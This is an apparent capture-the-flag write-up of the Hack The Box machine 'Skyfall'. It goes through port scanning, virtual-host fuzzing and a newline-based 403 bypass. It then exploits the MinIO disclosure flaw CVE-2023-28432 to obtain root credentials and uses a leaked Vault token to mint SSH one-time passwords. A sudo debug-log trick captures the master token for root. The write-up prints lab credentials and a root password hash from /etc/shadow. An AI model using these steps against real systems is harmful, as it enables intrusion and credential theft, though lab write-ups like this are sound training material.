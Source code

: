 ```yaml
---
title: HTB Skyfall Writeup
author: Elus1nist
layout: post
date: 12 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/e43c6cdfe71e56188e5c2c4f39f5c180.png
---
```

Welcome! This is my writeup of the new Season 4 Insane machine from HTB, Skyfall. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -F -Pn -oN initial_scan 10.10.11.254
```
This gives us the scan results of:

```
Nmap scan report for 10.10.11.254
Host is up (0.062s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 65:70:f7:12:47:07:3a:88:8e:27:e9:cb:44:5d:10:fb (ECDSA)
|_  256 74:48:33:07:b7:88:9d:32:0e:3b:ec:16:aa:b4:c8:fe (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Skyfall - Introducing Sky Storage!
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

We can see a singular open HTTP port. Not much to go o but good enough, added the virtual host `skyfall.htb` to the `/etc/hosts` file

---
---
## VHost Fuzzing

Knowing HackTheBox one of the first things I try with Web Servers is some Virtual Host Fuzzing

```sh
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://skyfall.htb/ -H Host: FUZZ.skyfall.htb -fs xxx
```

This shows us a possible virtual host of `demo.skyfall.htb`, added this to the `/etc/hosts` file

---
---
## Webpage Enumeration

Visiting the webpage we encounter:
<img src="{{- 'writeup_images/Skyfall/AlternateVHost_Webpage.png' | relative_url}}" >

As suggested, we can login using the credentials `guest : guest`
<img src="{{- 'writeup_images/Skyfall/LoginTo_Demo.png' | relative_url}}" >

---
---
## Bypassing 403 Unauthorized

Wen investigating the web page, I found multiple endpoints. The only endpoint with a `403` code returned was the `/metrics`. Using some auth bypass mechanisms I was finally able to view the page with `http://demo.skyfall.htb/metrics%0a`

<img src="{{- 'writeup_images/Skyfall/Metrics_authBypass.png' | relative_url}}" >

This leaked an important detail - The minio endpoint url
<img src="{{- 'writeup_images/Skyfall/minio_leak.png' | relative_url}}" >

Adding this to `/etc/hosts` file we can access the webpage and the Minio endpoint -
<img src="{{- 'writeup_images/Skyfall/Accessing_MinIO.png' | relative_url}}" >

---
---
## Exploiting Minio

When reading up on Minio public exploits we encounter `CVE-2023-28432`. This is an information disclosure vulnerability. To trigger visit the url endpoint `/minio/bootstrap/v1/verify` and the site returns the following minio setings:

```
"MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww"
"MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0"
"MINIO_UPDATE_MINISIGN_PUBKEY":"RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"
```

Now that we have some data to interact with minio we download the `mc` client (using the docs found [here](ttps://min.io/docs/minio/linux/reference/minio-mc.html)) and use as follows:

```
1) Set alias for minio access
mc set alias testminio_creds http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0

2) List resources from minio
mc ls --recursive --versions testminio_creds
```
<img src="{{- 'writeup_images/Skyfall/Minimo_enumeration.png' | relative_url}}" >

```
3) The most important resource is the 3 versions of home_backup.tar.gz. Lets download all 3 versions
mc cp --vid <version_id> myminio/askyy/home_backup.tar.gz ./down.tar.gz
```
One of these zip files leaks the ssh vault by hashicrop is being used

```sh
export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
```

---
---
## Logging in to ssh vault

#### Step 1: Login to vault
```sh
./vault login
```

#### Step 2: Create OTP Key role
```sh
curl --header "X-Vault-Token: $VAULT_TOKEN" --request POST --data '{"ip":"10.10.11.254", "username":"askyy"}' http://prd23-vault-internal.skyfall.htb/v1/ssh/creds/dev_otp_key_role

{
  "request_id": "b119e3d6-15e9-043e-cae2-79183c8700a7",
  "lease_id": "ssh/creds/dev_otp_key_role/xPVWouo7sCaikISm4PysqLMm",
  "renewable": false,
  "lease_duration": 2764800,
  "data": {
    "ip": "10.10.11.254",
    "key": "ef02d28f-e83b-ab0f-cba1-3031439d9599",
    "key_type": "otp",
    "port": 22,
    "username": "askyy"
  },
  "wrap_info": null,
  "warnings": null,
  "auth": null
}
```

#### Step 3: Login to SSH via vault using OTP role
```sh
./vault ssh -role dev_otp_key_role -mode otp askyy@10.10.11.254
```

GIVES US USER FLAG!

---
---
## Privilege Escalation

First we check what sudo permissions our `askyy` user has:

```sh
askyy@skyfall:~$ sudo -l
Matching Defaults entries for askyy on skyfall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml [-vhd]*
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml
```

As we can see, the user has the ability to run the vault-unseal command as root. Now running it we can see what it is doing:

```
sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v

[-] Master token found in config: ************
[>] Enable "debug" mode for more details
```

So lets do just that, enabling debug mode would mean providing a file named debug.log.

### 1) Setup debug file and make it owned by askyy
```
touch debug.log
chown askyy:askyy debug.log
```
### 2) Run unseal in debug mode, capturing the Master token
```
sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v -d debug.log
cat debug.log
<Gives us the Master token>
``` 

We can now use this token to login with vault and ssh as done above

---
---
## SSH as root

#### Step 1: Login to vault
```sh
./vault login
```

#### Step 2: Create OTP Key role for admin
```sh
curl --header "X-Vault-Token: $VAULT_TOKEN" --request POST --data '{"ip":"10.10.11.254", "username":"root"}' http://prd23-vault-internal.skyfall.htb/v1/ssh/creds/admin_otp_key_role
```

#### Step 3: Login to SSH via vault using OTP role
```sh
./vault ssh -role admin_otp_key_role -mode otp root@10.10.11.254
```

GIVES US ROOT FLAG!

`/etc/shadow`
```sh
root:$y$j9T$4uH0lUFbgz7XKRP4f/FgP.$gEGN1NQvQhD2aRx452dXMDPZm67IbrFtfzxH.6smSl7:19669:0:99999:7:::
daemon:*:19579:0:99999:7:::
bin:*:19579:0:99999:7:::
sys:*:19579:0:99999:7:::
sync:*:19579:0:99999:7:::
games:*:19579:0:99999:7:::
man:*:19579:0:99999:7:::
lp:*:19579:0:99999:7:::
mail:*:19579:0:99999:7:::
news:*:19579:0:99999:7:::
uucp:*:19579:0:99999:7:::
proxy:*:19579:0:99999:7:::
www-data:*:19579:0:99999:7:::
backup:*:19579:0:99999:7:::
list:*:19579:0:99999:7:::
irc:*:19579:0:99999:7:::
gnats:*:19579:0:99999:7:::
nobody:*:19579:0:99999:7:::
_apt:*:19579:0:99999:7:::
systemd-network:*:19579:0:99999:7:::
systemd-resolve:*:19579:0:99999:7:::
```

<img src="https://giffiles.alphacoders.com/206/206739.gif">
